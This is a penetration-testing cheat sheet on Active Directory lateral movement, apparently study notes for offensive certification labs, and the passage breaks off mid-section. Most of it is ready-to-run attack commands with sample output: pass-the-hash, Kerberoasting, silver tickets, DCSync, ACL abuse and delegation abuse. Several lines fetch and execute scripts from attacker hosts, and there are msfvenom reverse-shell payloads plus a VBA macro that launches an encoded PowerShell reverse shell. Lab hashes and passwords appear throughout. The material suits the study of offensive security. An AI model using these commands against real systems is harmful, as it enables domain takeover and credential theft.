 # Lateral Movement

<details>

<summary>Admin Password Reuse</summary>

Using crackmapexec:

```bash
└─# crackmapexec smb 10.11.1.20-24 -u administrator -H 'ee0c207898a5bccc01f38115019ca2fb' --local-auth --lsa 
SMB         10.11.1.22      445    SVCLIENT08       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT08) (domain:SVCLIENT08) (signing:False) (SMBv1:True)
SMB         10.11.1.21      445    SV-FILE01        [*] Windows Server 2016 Standard 14393 x64 (name:SV-FILE01) (domain:SV-FILE01) (signing:False) (SMBv1:True)
SMB         10.11.1.24      445    SVCLIENT73       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT73) (domain:SVCLIENT73) (signing:False) (SMBv1:True)
SMB         10.11.1.20      445    SV-DC01          [*] Windows 10.0 Build 17763 x64 (name:SV-DC01) (domain:SV-DC01) (signing:True) (SMBv1:False)
SMB         10.11.1.22      445    SVCLIENT08       [+] SVCLIENT08\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!)
SMB         10.11.1.21      445    SV-FILE01        [-] SV-FILE01\administrator:ee0c207898a5bccc01f38115019ca2fb STATUS_LOGON_FAILURE 
SMB         10.11.1.24      445    SVCLIENT73       [+] SVCLIENT73\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!
```

* Login with impacket psexec using hashes

```bash
impacket-psexec jimmy@192.168.35.142 -hashes ee0c207898a5bccc01f38115019ca2fb
```

</details>

<details>

<summary>Obtain Kerberos Ticket</summary>

* Sync the Kali's timing with the DC timing.

```bash
ntpdate <dc_ip>
```

* To collect the Kerberos Ticket

```bash
impacket-GetUserSPNs hacker.local/Administrator:Password1 -dc-up 192.168.35.142 -request
```

</details>

<details>

<summary>Getting TGT from Service</summary>

For pass the ticket attack

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 active.htb/SVC-TGS -no-pass
```

</details>

<details>

<summary>Pass the Hash</summary>

* Works only for server or service using NTLM authentication, not Kerberos authentication.
* Requires local administrative permissions.

Retrieve the content of the Windows Security Account Manager (SAM) file to dump client01's hashes.

```sh
reg save hklm\sam c:\windows\temp\sam
```

```sh
reg save hklm\system c:\windows\temp\system
```

```sh
impacket-secretsdump -system system -sam sam local
```

```bash
impacket-secretsdump Hacker.local/hguy:password@192.168.35.144'
```

Connect to victim by passing the hash

```sh
impacket-psexec Administrator:@192.168.199.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

* hashes in the format: \<LM>:\<NT>
* LM hashes discontinued since Win10

</details>

<details>

<summary>Pass the Hash with Computer Account</summary>

```bash
sekurlsa::pth /user:web01$ /domain:EVIL.COM /ntlm:f4528218862ef1bed4c351d7b10d77fd
```

</details>

<details>

<summary>Kerberoasting</summary>

To obtain TGS-REP hash to crack service accounts passwords.

### Invoke-Kerberoast.ps1

Collects a list of service accounts along with their correlating password hashes

```sh
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

### Rubeus.exe

[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
C:\temp>Rubeus.exe kerberoast
Rubeus.exe kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting
...
```

### GetUserSPNs.py

* Good when don't have access to the victim
* On the attacker:

```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

NXC Kerberoasting (Using kerberos auth)

```
nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --kerberoasting hash
```

### Cracking Hashes

```sh
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Overpass the Hash</summary>

* “Over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket or service ticket
* Requires local admin rights

1. Obtain the NTLM hash first&#x20;

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

2. Creates a new PowerShell process in the context of the Jeff\_Admin user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

3. Inside the new Powershell session, generate a TGT by authenticating to a network share on the domain controller.&#x20;

```powershell
net use \\dc01
```

* We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

```
klist
```

4. Since we have generated Kerberos tickets and operate in the context of Jeff\_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller

```
.\PsExec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Pass the Ticket</summary>

Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.

1. Obtain Domain SID

```sh
whoami /user
# Output: S-1-5-21-1602875587-2787523311-2599479668-1103
# Domain-SID: S-1-5-21-1602875587-2787523311-2599479668
```

2. Either obtain NTLM hash or generate hash from password using [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

2) Use Mimikatz

```bash
.\mimikatz.exe
kerberos::purge
kerberos::list
```

* Ensure that no kerberos ticket is present

```bash
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

* To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

```
kerberos::list
```

3. Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

</details>

<details>

<summary>NTDSam</summary>



</details>

<details>

<summary>DCSync</summary>

### From Bloodhound:

![](<../.gitbook/assets/image (140).png>)

### Using Secretsdump

```bash
secretsdump.py -just-dc svc_loanmgr@10.10.10.175 -outputfile dcsync_hashes
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#Password:
#[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
#[*] Using the DRSUAPI method to get NTDS.DIT secrets
#Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

### Using Mimikatz (Powershell)

* Download Invoke-Mimikatz.ps1 from [here](https://github.com/phra/PowerSploit/raw/4c7a2016fc7931cd37273c5d8e17b16d959867b3/Exfiltration/Invoke-Mimikatz.ps1)

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:administrator"'
# OR
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator"'
```

</details>

<details>

<summary>Cracking Mscash (Cached Domain Credentials)</summary>

[https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

```bash
secretsdump.py administrator@172.16.197.11 -hashes :f1014ac49bae005ee3ece5f47547d185 
# MEDTECH.COM/Administrator:$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# MEDTECH.COM/yoshi:$DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
```

### Format into $DCC2$10240#username#hash format for hashcat&#x20;

```bash
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 medtech_hashes
# $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# $DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
# $DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
```

### Crack with Hashcat

```bash
hashcat -m 2100 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>WriteDacl (Bloodhound)</summary>

* Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

#### On Victim:

```bash
*Evil-WinRM* PS C:\temp> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')

*Evil-WinRM* PS C:\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions" john /add
# Needed cuz based on bloodhound, exhange windows permissions group has writedacl privileges for domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

*Evil-WinRM* PS C:\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

#### On Attacker:

```bash
secretsdump.py htb/john@10.10.10.161
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

</details>

<details>

<summary>Distributed Component Object Model</summary>

* is a system for creating software components that interact with each other within or across processes.

- Requires Local admin (to call the DCOM Service Control Manager)
- Requires port 135, 445
- Requires Microsoft office to be installed on target

1. Create an instance of the Object on the target

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
```

2. Check the available methods for the object

```powershell
$com | Get-Member
```

* If it has the `Run` method, attacker is able to execute Visual Basic for Applications (VBA) macro remotely.

3. Generate Reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

4. Extract from the generated payload, the line starting with `powershell.exe -nop -w hidden -e` followed by the Base64 encoded payload and use the simple Python script to split the command into smaller chunks (ensuring that the literal strings limit in Excel macros is met.)

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

5. Put the reverse shell payload into macro

```vba
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

* Save the file in `Excel 97-2003 Workbook` format.

6. Transfer the file over to target using SMB, open the excel file and run the macro.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")

```

</details>

<details>

<summary>Dump Domain Admin Hash from DC</summary>

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:prod.corp1.com /user:prod\administrator
evil-winrm  -i 192.168.70.70 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
```

</details>

<details>

<summary>Change Domain Admin password</summary>

* From high privilege shell
* Changes the password to `password`

```sh
net user /domain administrator password
```

</details>

<details>

<summary>Open CMD Prompt as Another User</summary>

```bash
runas /user:corp\jen powershell.exe
```

</details>

## OSEP Notes below

<details>

<summary>Stealing Keytab files (Linux AD)</summary>

* Contains a kerberos principal name & encrypted keys
*   ```bash
    kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
    ```


* Verify that tickets from keytab have been loaded && renew tickets
  *   ```bash
      klist
      kinit -R
      ```


* Remove all kerberos tickets
  * ```bash
    kdestroy
    ```

</details>

<details>

<summary>Stealing Credential Cache Files (Linux AD)</summary>

* Check for presence with&#x20;
  *   ```bash
      ls -al /tmp/krb5cc_*
      ```

      If not present but has domain user on linux box --> try to [ssh into that domain user](../services/22-ssh.md#ssh-persistency) (add attacker's SSH public key to domain user authorized host & ssh as domain user) and `ls -la /tmp/krb5cc_*`
* Copy credential cache files to Kali
  *   ```bash
      scp root@linuxvictim:/tmp/krb5cc_607000500_qZWKpe .
      #scp -i  ssh_key pete@complyedge.com@web05:/tmp/krb5cc_75401103_PlYU68 .
      ```


* Set environment variable on Kali
  *   ```bash
      export KRB5CCNAME=/home/kali/Documents/offsec/linux_lateral_movement/krb5cc_607000500_qZWKpe
      ```


*   Install the following, if required

    * ```bash
      sudo apt install krb5-user
      ```


* Add target DC and generic domain to /etc/hosts
  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* IMPT: THE SOURCE OF THE KERBEROS REQUEST MATTERS!!! --> SET UP [LIGOLO-NG!](../post-exploitation/port-forwarding-pivoting.md#ligolo-ng)
* Then, can
  * <pre class="language-bash"><code class="lang-bash"><strong>impacket-psexec Administrator@DC01.CORP1.COM -k -no-pass
    </strong></code></pre>

</details>

<details>

<summary>Creating Keytab files (Linux AD)</summary>

* Create in /tmp/administrator.keytab
* ```bash
  ktutil
  addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
  wkt /tmp/administrator.keytab
  quit
  ```

</details>

<details>

<summary>Creating Credential Cache Files (Linux AD)</summary>

* Acquire TGT for current user
  *   ```bash
      kinit
      ```


* List tickets currently stored in user's credential cache file
  *   ```bash
      klist
      ```


* Get a list of available SPN from DC
  *   ```bash
      ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
      ```


* Request a service ticket from Kerberos for MSSQL SPN
  * ```bash
    kvno MSSQLSvc/DC01.corp1.com:1433
    ```

</details>

<details>

<summary>Abusing GenericAll</summary>

## For Domain User

* Change password of an account
  *   ```powershell
      net user testservice1 P@ssw0rd /domain
      ```


* Spawn new powershell.exe in context of testservice1
  *   ```powershell
      runas /user:prod\testservice1 powershell.exe
      ```



## For Domain Group

* ```powershell
  net group testgroup offsec /add /domain
  ```

</details>

<details>

<summary>Exploiting WriteDACL</summary>

* Can add new access rights like GenericAll, GenericWrite, or even DCSync
*

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Adding GenericAll rights:
  *   ```powershell
      # Might need to migrate to sqlsvc process using metasploit

      # Load PowerView
      iex (new-object net.webclient).downloadstring('http://192.168.45.215/PowerView.ps1')

      # Modify sqlsvc to have full control over the mailadmins group
      Add-DomainObjectAcl -Rights 'All' -TargetIdentity "mailadmins" -PrincipalIdentity "sqlsvc"

      # Add sqlsvc to mailadmins domain group
      net group "mailadmins" sqlsvc /add /domain

      # Verify that sqlsvc is inside mailadmins group
      net user sqlsvc /domain
      ```



OR.. ![](<../.gitbook/assets/image (1) (1) (1) (1).png>)

```powershell
#Current user is svc-alfresco
net user bill P@ssw0rd123! /add /domain
net group "Exchange Windows Permissions" bill /add
net localgroup "Remote Management Users" bill /add

iex (new-object net.webclient).downloadstring('http://10.10.14.20/PowerView.ps1')
$pass = convertto-securestring 'P@ssw0rd123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\bill', $pass)
Add-ObjectACL -PrincipalIdentity bill -Credential $cred -Rights DCSync
```

</details>

<details>

<summary>Exploiting GenericWrite on Another User</summary>

### Set Login Script for victim user

* Generate using [csharp\_shellcode python script](../good-exploit-code/c-shellcode-runner.md#process-injector-example)

```powershell
# Load PowerView
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')

# Setup SMB server
sudo python3 /usr/local/bin/smbserver.py share . -smb2support

# Logon Script to point to rev shell exe
Set-DomainObject -Identity SHAUN.BLAKE -Set @{'scriptpath'='\\192.168.45.218\share\ProcessInjection.exe'}
```

### Cracking User's Password

* Able to set a service principal name and kerberoast that account
  *   ```powershell
      wget https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/refs/heads/main/targetedKerberoast.py
      ./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab'
      ```


* Obtain TGS-REP hash
  *   ```bash
      hashcat -m 13100 hash.txt rockyou.txt
      ```



</details>

<details>

<summary>Exploiting GenericWrite on Computer Object (Including DC)<br></summary>

OR USE [RBCD FROM KALI ATTACKER MACHINE!!](lateral-movement.md#resource-based-constrained-delegation)

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Enumerating permissions assigned to current user
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```


  * Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

- <pre class="language-powershell"><code class="lang-powershell">iex (new-object net.webclient).downloadstring('http://192.168.45.206/Powermad.ps1')
  iex (new-object net.webclient).downloadstring('http://192.168.45.206/PowerView.ps1')

  # Create a fake computer account
  New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
  Get-DomainComputer -Identity myComputer

  # Get the SID of myComputer$
  $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

  # Create a Security Descriptor for RBCD
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

  # Convert and Apply the Security Descriptor to appsrv01
  $SDbytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDbytes,0)
  Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

  # Verify That RBCD Was Configured
  $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
  $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
  $Descriptor.DiscretionaryAcl

  # Verify the SID Mapping
  ConvertFrom-SID S-1-5-21-634106289-3621871093-708134407-3601

  # Generate an NTLM Hash for myComputer$
  .\Rubeus.exe hash /password:h4x

  # Request a Ticket Granting Service (TGS) Ticket Using Rubeus
  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

  # Verify Remote Access to appsrv01
  dir \\appsrv01.prod.corp1.com\c$

  # Obtaining code execution
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=80 EXITFUNC=thread -f exe -o shell.exe
  copy shell.exe \\appsrv01.prod.corp1.com\C$\Windows\Temp\shell.exe
  wmic /node:appsrv01.prod.corp1.com process call create "C:\Windows\Temp\shell.exe"

  <strong>#OR 
  </strong>
  python3 mkpsrevshell.py 192.168.45.222 443
  wmic /node:appsrv01.prod.corp1.com process call create "powershell -e JABjAG.."

  </code></pre>

</details>

<details>

<summary>Exploiting ForceChangePassword</summary>

<figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

Currently, pwned adminwebsvc@final.com --> part of webadmins grp --> able to ForceChangePassword for Nina

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.45.160/PowerView.ps1')	
$NewPassword = ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Nina -AccountPassword $NewPassword
```

</details>

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

```powershell
Import-Module powerview.ps1
Get-DomainComputer -Unconstrained
# Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
```

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 krbrelayx.py -aesKey python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


* Use ccache file
  * ```
    mv administrator@cifs_jump09.ops.comply.com@OPS.COMPLY.COM.ccache new_admin.ccache
    export KRB5CCNAME=/home/kali/Documents/offsec/challenges/5/new_admin.ccache
    ```
* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Extra SID Attack</summary>

## FOR CHILD DOMAIN TO PARENT DOMAIN EG (prod.corp1.com to corp1.com)

## Using KRBTGT

* Extracts krbtgt hash for creating a Golden Ticket
  *   ```powershell
